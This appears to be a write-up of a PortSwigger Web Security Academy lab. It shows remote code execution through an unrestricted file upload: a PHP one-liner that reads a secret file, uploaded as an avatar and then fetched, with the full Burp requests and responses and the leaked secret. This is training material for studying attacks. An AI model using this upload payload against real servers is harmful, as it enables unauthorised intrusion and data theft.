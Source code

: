 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/95a1da63-a8a2-48cd-8887-d1f17a2a1591)

## Overview :

- If we're able to successfully upload a web shell, we effectively have full control over the server.
- For example, the following PHP one-liner could be used to run commands on the server:  `<?php echo file_get_contents('/path/to/target/file'); ?>`

Once uploaded , we can pass an arbitrary system command via a query parameter as follows:

```
GET /example/exploit.php?command=id HTTP/1.1
```

## Solution :

Click on any of the blog posts. We can see that we have an option to upload files.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/907e5013-4590-426e-881f-71a47a4f85de)

Similarly login as wiener & we can see that there is an upload functionality here also.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9cfc8e29-35d1-4214-ae91-a29ac7b4e827)


Create a file name `file.php` with the contents - `<?php echo file_get_contents('/home/carlos/file.php'); ?>`

Upload the file & intercept the request in burp.

```
POST /my-account/avatar HTTP/2
Host: 0ae20028048451db80ac6ccb00770069.web-security-academy.net
Cookie: session=XMuD5PzAVGlJwvXHQvNGUesAPnO46yNF
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------104599838211464567631888268358
Content-Length: 527
Origin: https://0ae20028048451db80ac6ccb00770069.web-security-academy.net
Referer: https://0ae20028048451db80ac6ccb00770069.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------104599838211464567631888268358
Content-Disposition: form-data; name="avatar"; filename="file.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/file.php'); ?>

-----------------------------104599838211464567631888268358
Content-Disposition: form-data; name="user"

wiener
-----------------------------104599838211464567631888268358
Content-Disposition: form-data; name="csrf"

zWcS51k2tzIrkultAJbpXr0rIkNKySQ2
-----------------------------104599838211464567631888268358--
```

The response indicates that the file upload of **file.php** was successful.

```
HTTP/2 200 OK
Date: Thu, 27 Jul 2023 15:17:11 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 129

The file avatars/file.php has been uploaded.

<p>
 <a href="/my-account" title="Return to previous page">« Back to My Account</a>
</p>
```

Once uploaded , right click on the image and open in new  tab. From the url we can understand that it is loading the file from `/files/avatars/file.php`


So change the request method to GET with the url **files/avatars/file.php**.

```
GET /files/avatars/file.php HTTP/2
Host: 0ae20028048451db80ac6ccb00770069.web-security-academy.net
Cookie: session=XMuD5PzAVGlJwvXHQvNGUesAPnO46yNF
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://0ae20028048451db80ac6ccb00770069.web-security-academy.net
Referer: https://0ae20028048451db80ac6ccb00770069.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
When the file is fetched, we can see the secret file's contents in the response. It means that the file got saved & got processed at the backend.

```
HTTP/2 200 OK
Date: Thu, 27 Jul 2023 15:28:36 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

UbkOi2Ajs7rSvyOqimiy5SLOc7K0zYhq
```
Submit the value to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4ef3a750-8f82-4955-98e0-fe17bc430b6a)














